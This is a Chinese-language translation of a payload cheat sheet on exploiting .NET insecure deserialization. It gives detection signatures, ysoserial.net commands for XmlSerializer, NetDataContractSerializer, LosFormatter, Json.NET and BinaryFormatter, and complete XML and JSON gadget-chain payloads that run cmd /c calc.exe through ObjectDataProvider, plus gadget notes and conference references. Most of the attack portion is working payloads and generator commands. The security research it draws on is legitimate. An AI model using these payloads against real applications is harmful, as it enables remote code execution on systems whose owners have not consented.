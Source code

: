 # .NET 反序列化

>.NET 序列化是将对象的状态转换为可以轻松存储或传输的格式（如 XML、JSON 或二进制）的过程。然后，该序列化数据可以保存到文件中、通过网络发送或存储在数据库中。之后，它可以被反序列化以重建原始对象及其完整数据。序列化在 .NET 中广泛用于任务，如缓存、应用程序间的数据传输和会话状态管理。

## 概述

* [检测](#检测)
* [工具](#工具)
* [格式化程序](#格式化程序)
    * [XmlSerializer](#xmlserializer)
    * [DataContractSerializer](#datacontractserializer)
    * [NetDataContractSerializer](#netdatacontractserializer)
    * [LosFormatter](#losformatter)
    * [JSON.NET](#jsonnet)
    * [BinaryFormatter](#binaryformatter)
* [POP 小工具](#pop小工具)
* [参考](#参考)

## 检测

| 数据           | 描述         |
| -------------- | ------------------- |
| `AAEAAD` (十六进制) | .NET BinaryFormatter |
| `FF01` (十六进制)   | .NET ViewState |
| `/w` (Base64)   | .NET ViewState |

示例: `AAEAAAD/////AQAAAAAAAAAMAgAAAF9TeXN0ZW0u[...]0KPC9PYmpzPgs=`

## 工具

* [pwntester/ysoserial.net - 多种 .NET 格式化程序的反序列化有效载荷生成器](https://github.com/pwntester/ysoserial.net)

```ps1
cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

## 格式化程序

![NETNativeFormatters.png](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Insecure%20Deserialization/Images/NETNativeFormatters.png?raw=true)
来自 [pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15) 的 .NET 原生格式化程序

### XmlSerializer

* 在 C# 源代码中查找 `XmlSerializer(typeof(<TYPE>));`。
* 攻击者必须控制 XmlSerializer 的 **类型**。
* 有效负载输出: **XML**

```xml
.\ysoserial.exe -g ObjectDataProvider -f XmlSerializer -c "calc.exe"
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc.exe</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```

### DataContractSerializer

> DataContractSerializer 以松散耦合的方式反序列化。它从传入的数据中永远不会读取通用语言运行时 (CLR) 类型和程序集名称。XmlSerializer 的安全模型与 DataContractSerializer 类似，主要区别在于细节。例如，使用 XmlIncludeAttribute 属性而不是 KnownTypeAttribute 属性进行类型包含。

* 在 C# 源代码中查找 `DataContractSerializer(typeof(<TYPE>))`。
* 有效负载输出: **XML**
* 数据 **类型** 必须由用户控制才能利用

### NetDataContractSerializer

> 它扩展了 `System.Runtime.Serialization.XmlObjectSerializer` 类，并能够序列化任何带有可序列化属性标记的类型为 `BinaryFormatter`。

* 在 C# 源代码中查找 `NetDataContractSerializer().ReadObject()`。
* 有效负载输出: **XML**

```ps1
.\ysoserial.exe -f NetDataContractSerializer -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```

### LosFormatter

* 内部使用 `BinaryFormatter`。

```ps1
.\ysoserial.exe -f LosFormatter -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```

### JSON.NET

* 在 C# 源代码中查找 `JsonConvert.DeserializeObject<Expected>(json, new JsonSerializerSettings`。
* 有效负载输出: **JSON**

```ps1
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc.exe" -t
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

### BinaryFormatter

> BinaryFormatter 类型是危险的，不建议用于数据处理。即使应用程序认为正在处理的数据是可信的，也应尽快停止使用 BinaryFormatter。BinaryFormatter 不安全，无法使其安全。

* 在 C# 源代码中查找 `System.Runtime.Serialization.Binary.BinaryFormatter`。
* 利用需要 `[Serializable]` 或 `ISerializable` 接口。
* 有效负载输出: **二进制**

```ps1
./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

## POP 小工具

这些小工具必须具有以下特性：

* 可序列化
* 公有/可设置变量
* 魔法函数：Get/Set、OnSerialisation、构造函数/析构函数

您必须为特定的 **格式化程序** 精心选择您的 **小工具**。

常用的有效负载中使用的流行小工具列表。

* **ObjectDataProvider** 来自 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll`
    * 使用 `MethodParameters` 设置任意参数
    * 使用 `MethodName` 调用任意函数
* **ExpandedWrapper**
    * 指定封装对象的 **对象类型**

    ```cs
    ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
    ```

* **System.Configuration.Install.AssemblyInstaller**
    * 使用 Assembly.Load 执行有效负载

    ```cs
    // System.Configuration.Install.AssemblyInstaller
    public void set_Path(string value){
        if (value == null){
            this.assembly = null;
        }
        this.assembly = Assembly.LoadFrom(value);
    }
    ```

## 参考

* [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - Slides - James Forshaw - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
* [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - White Paper - James Forshaw - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
* [Attacking .NET Deserialization - Alvaro Muñoz - April 28, 2018](https://youtu.be/eDfGpu3iE4Q)
* [Attacking .NET Serialization - Alvaro - October 20, 2017](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=11)
* [Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net) - HackTricks - July 18, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net)
* [Bypassing .NET Serialization Binders - Markus Wulftange - June 28, 2022](https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html)
* [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili (@irsdl) - April 23, 2019](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [Finding a New DataContractSerializer RCE Gadget Chain - dugisec - November 7, 2019](https://muffsec.com/blog/finding-a-new-datacontractserializer-rce-gadget-chain/)
* [Friday the 13th: JSON Attacks - DEF CON 25 Conference - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
* [Friday the 13th: JSON Attacks - Slides - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
* [Friday the 13th: JSON Attacks - White Paper - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
* [Now You Serial, Now You Don't - Systematically Hunting for Deserialization Exploits - Alyssa Rahman - December 13, 2021](https://www.mandiant.com/resources/blog/hunting-deserialization-exploits)
* [Sitecore Experience Platform Pre-Auth RCE - CVE-2021-42237 - Shubham Shah - November 2, 2021](https://blog.assetnote.io/2021/11/02/sitecore-rce/)